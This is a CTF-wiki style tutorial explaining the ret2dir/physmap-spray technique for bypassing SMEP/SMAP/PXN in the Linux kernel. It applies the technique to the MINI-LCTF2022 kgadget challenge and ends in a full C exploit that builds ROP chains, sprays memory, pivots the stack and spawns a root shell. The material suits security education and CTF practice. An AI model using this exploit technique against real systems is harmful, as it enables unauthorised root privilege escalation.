


# ret2dir

ret2dir is an auxiliary attack technique proposed by Columbia University's Network Security Lab in 2014, primarily used to **bypass protection mechanisms that isolate user space from kernel space, such as smep, smap, and pxn**. The original paper can be found [here](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf).

Let's first consider the [memory layout of the Linux kernel on x86](https://elixir.bootlin.com/linux/latest/source/Documentation/x86/x86_64/mm.rst). There exists a region called the `direct mapping area`, which **linearly and directly maps the entire physical memory space**:

```rst
ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```

The existence of this region means that for a physical page frame used by a user process, **there simultaneously exists a user-space address and a kernel-space address mapping to that physical page frame**. In other words, when we access memory using these two addresses, we are accessing the same physical page frame.

When protections such as SMEP, SMAP, and PXN are enabled, direct access from kernel space to user space is prohibited. **We cannot directly use attack methods like ret2usr**. However, by leveraging the kernel's linear mapping of the entire physical address space, **we can use a kernel-space address to access user-space data, thereby bypassing traditional protection mechanisms like SMEP, SMAP, and PXN that isolate user space from kernel space**.

The figure below from the original paper illustrates an example of the ret2dir attack. The gadgets we place in user space can be **accessed in kernel space** through addresses in the direct mapping area:



However, it should be noted that **in newer kernel versions, the direct mapping area no longer has execute permissions**. Therefore, it is difficult to directly place shellcode in user space for exploitation. **But we can still complete the exploitation by placing ROP chains in user space**:



A relatively straightforward approach for attacking using ret2dir is:

- Use mmap to spray a large amount of memory in user space.

- Exploit a vulnerability to leak a kernel "heap" address (an address obtained via kmalloc), which **comes directly from the linear mapping area**.

- Use the leaked kernel linear mapping area address to **perform a memory search**, thereby finding the memory we sprayed in user space.

**At this point, we have obtained a kernel-space address that maps to user space. Through this kernel-space address, we can directly access user-space data, thus avoiding traditional protection mechanisms that isolate user space from kernel space**.

Note that we often don't have the opportunity to perform a memory search, so we need to **use mmap to spray a large amount of physical memory with the same payload**. Then we randomly pick an address in the linear mapping area for exploitation. This way, we **have a very high probability of hitting the payload we placed**, and this attack technique is also known as `physmap spray`.

## Example: MINI-LCTF2022 - kgadget

> The official write-up can be found at [https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir).

The challenge files can be downloaded from [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/MINILCTF2022-kgadget](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/MINILCTF2022-kgadget).

### Analysis

As usual, we are given a vulnerable driver. The reverse engineering is not particularly difficult. The only useful functionality is ioctl: if the second argument to ioctl is 114514, the third argument is treated as a pointer, dereferenced, and the value at the pointed address is used as a function pointer for execution (here the compiler optimizes it into `__x86_indirect_thunk_rbx()`, which is essentially just `call rbx`).

```c
__int64 __fastcall kgadget_ioctl(file *__file, unsigned int cmd, unsigned __int64 param)
{
  __int64 *v3; // rdx
  __int64 v4; // rsi
  __int64 result; // rax

  _fentry__(__file, cmd, param);
  if ( cmd == 114514 )
  {
    v4 = *v3;
    printk(&unk_370);
    printk(&unk_3A0);
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
    printk(&unk_3F8);
    _x86_indirect_thunk_rbx(&unk_3F8, v4);
    result = 0LL;
  }
  else
  {
    printk(&unk_420);
    result = -1LL;
  }
  return result;
}
```

The startup script has smep and smap protections enabled, so we cannot directly construct ROP in user space and then ret2usr. However, since kaslr is not enabled, we don't need to leak the kernel base address:

```sh
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64,+smep,+smap \
    -smp cores=2,threads=2 \
    -kernel bzImage \
    -initrd ./rootfs.cpio \
    -nographic \
    -monitor /dev/null \
    -snapshot \
    -append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
    -no-reboot
```

### Exploitation

Since we cannot directly find such a target in kernel space (although kernel space does contain function pointers that can be called in this way, such as the default function table `ptm_unix98_ops` for tty devices, the function pointers in these function tables are not useful to us), we need to **manually place our function pointer and ROP chain in kernel space**. Then we pass in the address of the gadget we placed and we can proceed with exploitation.

So how do we place our malicious data in kernel space? Some might think of `msg_msg`, `sk_buff`, and other commonly used structures for heap spraying. **But actually, we don't need to explicitly place data in kernel space. Instead, we can directly access user-space data through a kernel-space address** — that is the `direct mapping area` which maps the entire physical memory.

It's easy to understand that **every memory page we allocate for user space can be accessed through this memory region in kernel space**. Therefore, we just need to place malicious data in user space and then find the corresponding kernel-space address of our user-space data in this kernel region. This is `ret2dir` — **accessing user-space data through a kernel-space address**.

Now a new problem arises: **how do we know the corresponding address of our malicious data in kernel space?** We cannot perform a memory search in kernel space, so we cannot directly determine the kernel-space address of our malicious data.

**The answer is that we don't need to search**. Here we use a technique called `physmap spray` from the [original paper](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf) — **use mmap to spray a large amount of physical memory with the same payload**. Then we randomly pick an address in the direct mapping area that is relatively close to the high end. This way, we **have a very high probability of hitting the payload we placed**.

Through the author's testing, when the number of sprayed memory pages reaches a certain magnitude, **we can always accurately hit our malicious data in the middle-to-rear portion of the direct mapping area**.

Finally, it comes down to gadget selection and ROP chain construction. We can easily think of using a gadget like `add rsp, val ; ret` to jump to the `pt_regs` on the kernel stack and place a privilege escalation ROP chain there. However, in this challenge, only the r9 and r8 registers in `pt_regs` are usable, because the challenge author cleaned up `pt_regs` in advance:

```c
    qmemcpy(
      (void *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 168),
      "arttnba3arttnba3arttnba3arttnba3arttnba3arttnba3",
      48);
    *(_QWORD *)(((unsigned __int64)&STACK[0x1000] & 0xFFFFFFFFFFFFF000LL) - 112) = 0x3361626E74747261LL;
```

But actually, having only two registers is sufficient. We can use a `pop_rsp ; ret` gadget for stack pivoting, **migrating the stack to the malicious data we placed in user space**. Then we simply place the privilege escalation ROP chain for landing back in user mode at a later position in the malicious data.

Since the buddy system allocates memory in page-sized units, the author also performs physmap spray in page-sized units to consume more physical memory and improve the hit rate. Since the author was too lazy to calculate the offset, each memory page is populated with a "three-stage" ROP chain, using the gadget that jumps to `pt_regs` as slide code simultaneously —

```
------------------------
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret 
add rsp, val ; ret
...
add rsp, val ; ret # This gadget is guaranteed to hit a ret in the next region, after which it can smoothly "slide" into the regular privilege escalation ROP
------------------------
ret
ret
...
ret
------------------------
common root ROP chain
------------------------
```

### final exploit

The final exploit is as follows:

```c
#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>

size_t  prepare_kernel_cred = 0xffffffff810c9540;
size_t  commit_creds = 0xffffffff810c92e0;
size_t  init_cred = 0xffffffff82a6b700;
size_t  pop_rdi_ret = 0xffffffff8108c6f0;
size_t  pop_rax_ret = 0xffffffff810115d4;
size_t  pop_rsp_ret = 0xffffffff811483d0;
size_t  swapgs_restore_regs_and_return_to_usermode = 0xffffffff81c00fb0 + 27;
size_t  add_rsp_0xe8_pop_rbx_pop_rbp_ret = 0xffffffff812bd353;
size_t  add_rsp_0xd8_pop_rbx_pop_rbp_ret = 0xffffffff810e7a54;
size_t  add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret = 0xffffffff810737fe;
size_t  ret = 0xffffffff8108c6f1;

void    (*kgadget_ptr)(void);
size_t  *physmap_spray_arr[16000];
size_t  page_size;
size_t     try_hit;
int     dev_fd;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus(void)
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error : \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}

void getRootShell(void)
{   
    puts("\033[32m\033[1m[+] Backing from the kernelspace.\033[0m");

    if(getuid())
    {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        exit(-1);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m");
    system("/bin/sh");
    exit(0);// to exit the process normally instead of segmentation fault
}

void constructROPChain(size_t *rop)
{
    int idx = 0;

    // gadget to trigger pt_regs and for slide
    for (; idx < (page_size / 8 - 0x30); idx++)
        rop[idx] = add_rsp_0xa0_pop_rbx_pop_r12_pop_r13_pop_rbp_ret;

    // more normal slide code
    for (; idx < (page_size / 8 - 0x10); idx++)
        rop[idx] = ret;

    // rop chain
    rop[idx++] = pop_rdi_ret;
    rop[idx++] = init_cred;
    rop[idx++] = commit_creds;
    rop[idx++] = swapgs_restore_regs_and_return_to_usermode;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) getRootShell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;
}

int main(int argc, char **argv, char **envp)
{
    saveStatus();

    dev_fd = open("/dev/kgadget", O_RDWR);
    if (dev_fd < 0)
        errExit("dev fd!");

    page_size = sysconf(_SC_PAGESIZE);

    // construct per-page rop chain
    physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    constructROPChain(physmap_spray_arr[0]);

    // spray physmap, so that we can easily hit one of them
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 15000; i++)
    {
        physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (!physmap_spray_arr[i])
            errExit("oom for physmap spray!");
        memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
    }

    puts("[*] trigger physmap one_gadget...");
    //sleep(5);

    try_hit = 0xffff888000000000 + 0x7000000;
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   0x22222222;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0x77777777;"
        "mov r9,    pop_rsp_ret;"   // stack migration again
        "mov r8,    try_hit;"
        "mov rax,   0x10;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   try_hit;"
        "mov rsi,   0x1bf52;"
        "mov rdi,   dev_fd;"
        "syscall"
    );
}
```

## REFERENCE

[http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir)
